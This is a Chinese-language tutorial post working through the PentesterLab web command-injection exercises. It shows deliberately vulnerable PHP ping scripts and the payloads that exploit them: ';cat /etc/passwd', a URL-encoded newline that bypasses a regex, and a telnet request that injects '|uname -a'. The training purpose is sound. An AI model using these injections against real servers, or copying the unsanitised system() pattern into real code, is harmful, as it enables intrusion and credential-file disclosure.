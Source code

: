 ```yaml
---
title: 常见web漏洞-command execution
categories:
- web
tags:
- web
---
```


[资料下载：pentesterLab download](https://pentesterlab.com/exercises/web_for_pentester/)

---
![常见web漏洞](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/%E5%B8%B8%E8%A7%81web%E6%BC%8F%E6%B4%9E.png)

## 命令执行：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/2.PNG)
#### 漏洞代码：
```
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```
system()函数，执行系统命令，
ping -c 2 ip，由于ip是客户端可控，导致命令执行。

---

#### 漏洞代码二：
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/3.PNG)
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
在执行命令之前，先正则表达式判断。

127.0.0.1;cat /etc/passwd
不满足正则表达式，所以返回无效的ip地址。

```
127.0.0.1
cat /etc/passwd
```
如果注入上面这样的代码，就会判断127.0.0.1是有效的ip，然后执行system函数

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/4.PNG)
将\n换行符url编码。

---

#### 漏洞代码三：
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
如果ip参数为正确的地址，则执行system()，否则就执行Location: example3.php?ip=127.0.0.1

- 效果展示
如果是有效地址，则ping给出的地址，如果是无效地址，就会ping 127.0.0.1。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/5.PNG)

- 漏洞利用
原理：由于在正则表达式判断ip地址时候，如果不符合，没有中止运行，而是302跳转到“Location: example3.php?ip=127.0.0.1”。
所以可以用nc或者telnet，观察到命令的执行结果。
```
telnet 192.168.2.131 80
GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0

HTTP/1.1 302 Found
Date: Tue, 13 Nov 2018 08:52:44 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15
X-XSS-Protection: 0
Location: example3.php?ip=127.0.0.1
Vary: Accept-Encoding
Content-Length: 1535
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>PentesterLab &raquo; Web for Pentester</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Web For Pentester">
    <meta name="author" content="Louis Nyffenegger (louis@pentesterlab.com)">

    <!-- Le styles -->
    <link href="/css/bootstrap.css" rel="stylesheet">

    <style type="text/css">
      body {
        padding-top: 60px;
        padding-bottom: 40px;
      }
    </style>
    <link href="/css/bootstrap-responsive.css" rel="stylesheet">

  </head>

  <body>

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="https://pentesterlab.com/">PentesterLab.com</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="/">Home</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



<pre>
Linux debian 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
</pre>
      <footer>
        <p>&copy; PentesterLab 2013</p>
      </footer>

    </div> <!-- /container -->


  </body>
</html>

```

## 命令执行的函数
system、exec、passthru、shell_exec、popen、proc_open、pcntl_exec

[参考文档：命令执行函数](http://php.net/manual/zh/ref.exec.php)

## 命令执行漏洞的危害
可以使得攻击者反弹一个shell。
例如[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

[G0rmint（一句话写入log 提权）](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
